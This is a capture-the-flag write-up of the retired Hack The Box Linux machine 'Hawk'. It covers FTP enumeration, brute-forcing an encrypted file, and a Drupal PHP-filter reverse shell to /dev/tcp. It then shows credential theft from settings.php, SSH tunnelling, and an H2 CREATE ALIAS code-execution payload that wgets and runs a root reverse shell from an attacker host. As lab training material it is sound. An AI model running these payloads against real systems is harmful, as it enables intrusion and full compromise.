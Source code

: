 ```yaml
---
layout: post
title: Hack The Box - Hawk
categories: hack-the-box
image: /hackthebox/hawk/0.png
redirect_from: "/HackTheBox-Hawk/"
---
```


<hr>
#### Hawk has retired and this is my write-up about it.
#### It's a Linux box and it's ip is 10.10.10.102 so let's jump right in !
![](/images/hackthebox/hawk/0.png)
<hr>
### Nmap
#### Starting with a simple nmap scan to scan tor TCP , UDP ports and services.
`nmap -sV -sT -sU 10.10.10.102`
![](/images/hackthebox/hawk/1.png)
<br>
#### We will see that we got FTP on port 21 , SSH on port 22 , HTTP on port 80 running apache server and HTTP on port 8082 running H2 Database HTTP Console.
<br>
<hr>
### FTP
#### Since there's FTP on the box let's check if we can do anonymous login.
![](/images/hackthebox/hawk/2.png)
#### We could login as anonymous and we got a file called : .drupal.txt.enc
#### Since it ends with .enc then it's an encrypted file.
#### Let's run file command against it to get more information.
<br>
```
file drupal.txt.enc
drupal.txt.enc : openssl enc'd data with salted password , base64 encoded
```
#### So base64 encoded ? Let's decode it.
<br>
`base64 -d drupal.txt.enc > drupal_decoded.txt.enc`
![](/images/hackthebox/hawk/3.png)
#### Now the file is ready for bruteforcing.
<br>
<hr>
### Decrypting The File
#### To get the password for decryption we will use a tool called bruteforce-salted-openssl with rockyou.
#### It's already installed on kali but if you're not using kali you can get it from [here](https://github.com/glv2/bruteforce-salted-openssl)
#### Now there's a small problem. We need to specify the right cipher and digest to be able to crack the file so we have to do some guessing.
#### I already cracked it so the cipher is AES-256-CBC and the digest is SHA256.
`bruteforce-salted-openssl -t 50 -f /usr/share/wordlists/rockyou.txt -d sha256 drupal_decoded.txt.enc -1`
#### You may ask yourself why I didn't specify the cipher. I didn't specify it because the tool uses AES-256-CBC by default.
![](/images/hackthebox/hawk/4.png)
#### Great ! We got the password : friends . Let's decrypt the file.
`openssl aes-256-cbc -d -in drupal_decoded.txt.enc -out drupal.txt -k friends`
![](/images/hackthebox/hawk/5.png)
#### Now we have a username : "daniel" and a password : PencilKeybaordScanner123
<br>
<hr>
### Drupal
#### We see in the message that the password is for a portal. But what portal?
#### Let's visit the website on port 80
![](/images/hackthebox/hawk/6.png)
#### We see that it's running drupal CMS 
#### Let's login with the credentials we have.
#### Username daniel didn't work but admin worked and we got in as admin !
![](/images/hackthebox/hawk/7.png)
#### After we enumerate for a while we will see some interesting stuff.
#### The content tab which allows us to add content and the modules tab.
#### If we tried to add content we will get two options : Article or a basic page.
#### We will focus on basic pages for sure but we can only use html , filtered html and plain text .
#### Let's look in the modules tab.
#### We will find a module called php filter which allows us to use php in pages. After we enable it we will get a fourth option : php code
![](/images/hackthebox/hawk/8.png)
#### Great ! Let's get a reverse shell 
`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.xx.xx/9090 0>&1'");`
![](/images/hackthebox/hawk/9.png)
![](/images/hackthebox/hawk/10.png)
#### Let's check our listener.
![](/images/hackthebox/hawk/11.png)
#### bam we got a low privilege shell as www-data !
<br>
<hr>
### Privilege Escalation to daniel
#### So we're now in as www-data let's check sensetive files first.
#### In drupal 7 documentation [This section](https://www.drupal.org/docs/7/install/step-3-create-settingsphp-and-the-files-directory) it's mentioned that settings.php contains where the database is located , how to access it and the credentials to access it. So this file has some sensetive information let's check that out.
![](/images/hackthebox/hawk/12.png)
![](/images/hackthebox/hawk/13.png)
#### We got a password : drupal4hawk , Let's try ssh
![](/images/hackthebox/hawk/14.png)
#### We got in ! But when we login we get a python interpreter. We will get a shell with pty
<br>
```
import pty
pty.spawn("/bin/sh")
```
![](/images/hackthebox/hawk/15.png)
#### And we got user ! :D
<br>
<hr>
### Accessing H2 Database
#### Now with some regular enumeration if we check out root processes we will see those 2 processes.
![](/images/hackthebox/hawk/16.png)
#### Sounds familiar ? Yup the H2 Database.
#### If we return to our nmap scan we will see port 8082 running H2 Database HTTP Console.
![](/images/hackthebox/hawk/1.png)
#### Now we know that it's running as root so let's try to access that.
![](/images/hackthebox/hawk/17.png)
#### Remote connection is disabled. This means that we can only connect locally.
#### To bypass that we will use ssh tunneling.
#### And if you don't know what ssh tunneling is ... simply we will forward the connection from the box to our machine. This means that the H2 console will be accessed locally from the box then that connection will be forwarded to us.
`ssh -L 8080:127.0.0.1:8082 daniel@10.10.10.102`
![](/images/hackthebox/hawk/18.png)
#### Now if we visit our localhost on port 8080 we will get the login page.
#### By default it doesn't have a password so we can access the console without credentials but when we login without credentials it gives an error.
![](/images/hackthebox/hawk/19.png)
#### Let's try changing the JDBC URL to something we know that it exists. /root
![](/images/hackthebox/hawk/20.png)
#### It worked . Now we have access to the console.
![](/images/hackthebox/hawk/21.png)
<br>
<hr>
### Abusing H2 Database ALIAS and Privilege Escalation to root
#### Basically the [CREATE ALIAS](http://www.h2database.com/html/grammar.html#create_alias) method creates a function that executes java code.
#### Since we can execute java code then we can do anything. So we will create a function that executes system commands then we will get a shell.
#### First we will create ALIAS called SHELLEXEC. The payload will be like this :
<br>
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
```
![](/images/hackthebox/hawk/22.png)
#### Then we will execute system commands by calling the function that we created. Let's execute whoami.
`call SHELLEXEC("whoami")`

![](/images/hackthebox/hawk/23.png)
#### And we see root :D
<br>
<br>
#### *NOTE: That H2 Database ALIAS exploit is not mine. Credits go to the creator . check his write-up about the exploit [here](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)*
<br>
<br>
<br>
#### now since we can execute system commands it's over ! We can get a root shell.
#### But We can't write a shell command and execute it right away it won't work so instead of that we can write our shell in a .sh file then upload it and execute it.
#### Another way is to use msfvenom but it's not needed here because the exploit is simple.
#### First we will create the shell file.
`bash -i >& /dev/tcp/10.10.xx.xx/1234 0>&1 > shell`
#### Then we will set up a HTTP server with python to host the shell.
`python -m SimpleHTTPServer 7777`
![](/images/hackthebox/hawk/24.png)
#### Now we will use wget to get the shell file on the box.
`call SHELLEXEC("wget http://10.10.xx.xx:7777/shell")`
![](/images/hackthebox/hawk/25.png)
![](/images/hackthebox/hawk/26.png)
#### We will make the file executable. 
`call SHELLEXEC("chmod +x shell")`
![](/images/hackthebox/hawk/27.png)
#### Then we will rename it to shell.sh
`call SHELLEXEC("mv shell shell.sh")`
![](/images/hackthebox/hawk/28.png)
#### And finally we execute it.
`call SHELLEXEC("bash shell.sh")`
![](/images/hackthebox/hawk/29.png)
#### We don't get a response which is a good sign. Let's check our listener.
![](/images/hackthebox/hawk/30.png)
#### And we get a shell as root ! :D
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources @Ahm3d_H3sham
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Jerry](/hack-the-box/jerry/)
#### Next Hack The Box write-up : [Hack The Box - Active](/hack-the-box/active/)
<hr>
